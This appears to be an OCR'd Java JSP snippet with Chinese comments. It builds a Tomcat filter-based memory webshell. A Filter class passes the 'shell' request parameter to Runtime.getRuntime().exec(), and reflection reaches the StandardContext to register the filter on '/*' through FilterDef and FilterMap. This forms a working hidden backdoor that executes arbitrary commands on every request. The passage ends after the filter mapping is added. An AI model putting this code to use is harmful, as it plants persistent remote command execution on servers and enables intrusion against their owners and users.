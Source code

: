     <%
        class FilterDemo implements Filter {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
                System.out.println("初始加完成");
            }
    
            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                servletRequest.setCharacterEncoding("utf-8");
                servletResponse.setCharacterEncoding("utf-8");
                servletResponse.setContentType("text/html;charset=UTF-8");
                System.out.println(servletRequest.getParameter("shell"));
                Runtime.getRuntime().exec(servletRequest.getParameter("shell"));
                System.out.println("过滤中。。。");
                filterChain.doFilter(servletRequest,servletResponse);
            }
    
            @Override
            public void destroy() {
                System.out.println("过滤结束");
            }
        }
    
        //1、通过request获取ServletContext类
        //通过request获取servletContext
        ServletContext servletContext = request.getServletContext();
        //其实这里是ApplicationContextFacade的类
        System.out.println(servletContext.getClass());
        Field applicationContextFacadefield = servletContext.getClass().getDeclaredField("context");
        applicationContextFacadefield.setAccessible(true);
        //获取servletContext对象中的context的值,因为是ApplicationContextFacade所以获取到的context是ApplicationContext
        ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadefield.get(servletContext);
        //通过applicationContext对象获取StandardContext
        Field standardContextfield = applicationContext.getClass().getDeclaredField("context");
        standardContextfield.setAccessible(true);
        StandardContext standardContext = (StandardContext) standardContextfield.get(applicationContext);
    
        //3、添加filterDef
        FilterDemo filterDemo = new FilterDemo();
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filterDemo);
        filterDef.setFilterName("FilterDemo");
        filterDef.setFilterClass(filterDemo.getClass().getName());
        standardContext.addFilterDef(filterDef);
    
        //4、添加filterMap
        FilterMap filterMap = new FilterMap();
        filterMap.setFilterName("FilterDemo");
        filterMap.addURLPattern("/*");
        standardContext.addFilterMap(filterMap);
    